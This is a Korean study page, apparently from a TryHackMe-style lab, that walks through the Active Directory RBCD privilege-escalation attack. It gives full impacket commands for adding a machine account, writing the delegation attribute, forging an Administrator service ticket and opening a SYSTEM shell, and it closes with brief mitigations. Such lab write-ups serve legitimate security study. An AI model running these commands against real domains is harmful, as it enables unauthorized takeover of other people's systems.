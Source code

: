```yaml
---
layout: page
title: RBCD_(Resource-Based_Constrained_Delegation)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# 리소스 기반 제한된 위임 (RBCD) 공격 가이드

RBCD(Resource-Based Constrained Delegation)는 기존의 제한된 위임(KCD)과 달리, 위임의 신뢰 관계를 리소스(예: 웹 서버) 측에서 설정하는 최신 위임 방식입니다. 이 공격은 공격자가 특정 컴퓨터 계정의 AD 개체 속성을 수정할 권한을 가질 때 발생하며, 이를 통해 해당 컴퓨터의 관리자 권한을 탈취할 수 있습니다.

### **공격 원리**

1.  공격자는 특정 컴퓨터(서버 B)의 AD 개체에 대한 쓰기 권한을 가집니다. (예: `GenericWrite`, `WriteDacl` 등)
2.  공격자는 자신이 제어하는 컴퓨터 계정(컴퓨터 A)을 생성하거나 이미 제어 중인 계정을 사용합니다.
3.  공격자는 서버 B의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 속성을 수정하여, 컴퓨터 A가 서버 B에 대해 위임 권한을 갖도록 설정합니다.
4.  이제 컴퓨터 A는 KDC에 S4U2proxy 요청을 보내, 특정 사용자(예: `Administrator`)를 사칭하여 서버 B의 특정 서비스(예: `cifs`)에 접근할 수 있는 서비스 티켓을 발급받을 수 있습니다.
5.  공격자는 이 티켓을 사용하여 서버 B에 `Administrator` 권한으로 접속합니다.

---

### **1. 취약점 식별**

- **목표:** 현재 공격자가 제어하는 계정이 쓰기 권한을 가진 다른 컴퓨터 계정을 찾습니다.
- **핵심 도구:** BloodHound
- **분석:** BloodHound에서 `Find paths to computers with GenericWrite`와 같은 쿼리를 실행하여, 현재 사용자가 제어할 수 있는 컴퓨터 객체를 시각적으로 쉽게 찾을 수 있습니다.

![Pasted_image_20250812235330.png](/image/Pasted_image_20250812235330.png)

---

### **2. 단계별 공격 절차 (`impacket` 활용)**

#### **1단계: 공격자 제어 컴퓨터 계정 확보**
- 도메인 사용자는 기본적으로 10개의 컴퓨터 계정을 도메인에 추가할 수 있습니다. 이 권한을 사용하여 공격자가 제어할 컴퓨터 계정을 생성합니다.

```bash
impacket-addcomputer <domain.local>/<compromised_user>:<password> -computer-name <ATTACKER-PC>$

impacket-addcomputer -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Password1!' -dc-host $target -domain-netbios thm.local 'THM.LOCAL/SUSANNA_MCKNIGHT:REDACTED'
```

#### **2단계: RBCD 관계 설정**
- `impacket-rbcd`를 사용하여, 1단계에서 생성한 `ATTACKER-PC가 공격 대상 서버(`VICTIM-PC)에 대해 위임하도록 설정합니다.

```bash
# GUEST 계정이라 패스워드는 필요없음. 빈 해쉬로 진행
# :31d6cfe0d16ae931b73c59d7e0c089c0 이건 빈 해쉬라는 뜻

impacket-rbcd THM.LOCAL/guest -hashes :31d6cfe0d16ae931b73c59d7e0c089c0  -dc-ip $target -delegate-to LABYRINTH$ -delegate-from ATTACKERSYSTEM$ -action write 
```

#### **3단계: 서비스 티켓 요청 (S4U2proxy)**
- `impacket-getST`를 사용하여, `ATTACKER-PC`의 권한으로, `Administrator`를 사칭하여 `VICTIM-PC`의 `cifs` 서비스에 접근하는 티켓을 요청합니다.
- [[GetST]]

```bash
# -spn: 요청할 서비스의 SPN
# -impersonate: 사칭할 사용자
impacket-getST -impersonate Administrator THM.LOCAL/ATTACKERSYSTEM\$:'Password1!' -spn cifs/LABYRINTH.THM.LOCAL -dc-ip $target
```
- 이 명령이 성공하면, 현재 디렉터리에 `Administrator.ccache` 파일이 생성됩니다.

#### **4. Pass-the-Ticket 및 원격 접속**
- 생성된 티켓을 환경 변수에 등록하고, `-k` 옵션을 사용하는 `impacket` 도구로 원격 접속을 시도합니다.

```bash
# .ccache 파일을 Kerberos 인증에 사용하도록 설정
export KRB5CCNAME=Administrator.ccache

# -k: Kerberos 인증 사용
# -no-pass: 비밀번호 없이, 캐시된 티켓으로 인증
impacket-wmiexec -k -no-pass <domain.local>/Administrator@VICTIM-PC.domain.local
```
- 성공 시 `VICTIM-PC`의 `SYSTEM` 셸을 획득하게 됩니다.

---

### **3. 방어 (Mitigation)**

- **ACL 감사:** 컴퓨터 객체에 대한 `GenericWrite`, `WriteDacl` 등 위험한 쓰기 권한이 일반 사용자에게 부여되지 않도록 정기적으로 AD의 ACL을 감사합니다.
- **중요 계정 보호:** 도메인 관리자 등 중요 계정의 속성에서 "계정은 민감하므로 위임할 수 없음(Account is sensitive and cannot be delegated)" 옵션을 활성화하여 위임 공격의 대상으로 사용되는 것을 방지합니다.
